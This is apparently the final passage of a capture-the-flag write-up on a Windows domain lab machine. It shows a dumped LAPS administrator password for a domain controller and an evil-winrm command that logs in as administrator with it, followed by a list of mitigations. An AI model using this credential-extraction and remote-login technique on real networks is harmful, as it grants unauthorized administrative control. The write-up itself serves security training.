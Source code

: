 Name MS-Mcs-AdmPwd
---- -------------
DC01 q2r47N};-Y5]v%/16R-X!1ni
```
Enfin, toujours via evil-winrm, on se connecte en tant qu'Administrateur :
`evil-winrm -i 10.10.11.152 -S -u administrator -p 'q2r47N};-Y5]v%/16R-X!1ni'`

Mitigations :

In the end, quite a few vulnerabilities were present and many of them are misconfigurations. To fix them, applying the following patches :

- Enforce read and write permissions to various SMB shares and dont store sensitive information
- Implement a strong password policy : one upper case, one lower case, one number and one special character required, 12 characters minimum
- Do not keep Powershell commands history or strongly reinforce its access by changing the configuration the account configuration
- Do not grant privileged rights to extract sensitive information in case of compromission, except to the domain controller. Hence, it is recommended to integrate additional security measures with the implementation of LAPS.
